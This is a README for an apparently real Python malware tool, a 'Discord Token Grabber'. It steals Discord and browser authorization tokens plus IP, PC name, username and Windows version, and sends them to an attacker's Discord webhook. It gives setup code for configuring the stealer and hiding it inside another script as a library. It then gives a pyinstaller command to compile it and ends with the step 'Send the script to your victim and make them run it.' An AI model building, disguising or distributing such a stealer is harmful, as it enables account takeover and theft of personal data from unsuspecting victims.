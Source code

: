 <h1 align="center">Discord Token Grabber</h1>
<p align="center">A Discord token grabber written in Python 3.</p>

This version of the grabber only supports **Windows**.

# Features
 - Transfers via Discord webhook
 - Sends: Public IP, PCName, PCUserName, Windows Version, Discord username, descriminator , token
 - Searches for authorization tokens in multiple directories (Discord, Discord PTB, Discord Canary, Google chrome, Opera, Brave and Yandex)
 - Only requests library needed
 - Can be used as a library

<br>

# How to use
 1. Create a webhook on your Discord server.
 2. Change the 'WEBHOOK_URL' variable value to your Discord webhook URL in [token-grabber.py](token-grabber.py)
 2.5. add it to another script (preferably as a library)
 example:
 ```python
import token_stealer
token_stealer.WEBHOOK_URL = "https://discord.com/api/webhooks/123456789/fyugYDStygft2g7y8f6datyFTYydfg61hfTY78y"
token_stealer.PING_ME = True
token_stealer.SEND_IP = True
token_stealer.SEND_PC_INFO = True
token_stealer.main()
```
2.75. Compile the script using pyinstaller
```
pyinstaller --onefile --console --name "program_name_here" --no-embed-manifest --add-data "C:/path/to/project/token_stealer.py;."  "C:/path/to/project/your_script.py"
```
3. Send the script to your victim and make them run it.

# Changelog:
```
- added SEND_IP and SEND_PC_INFO options
- added EMBED to MODE (not ready to use yet)
- added EXPERIMANTAL bool
- added getIP() function
- added getUserInfo() function
```
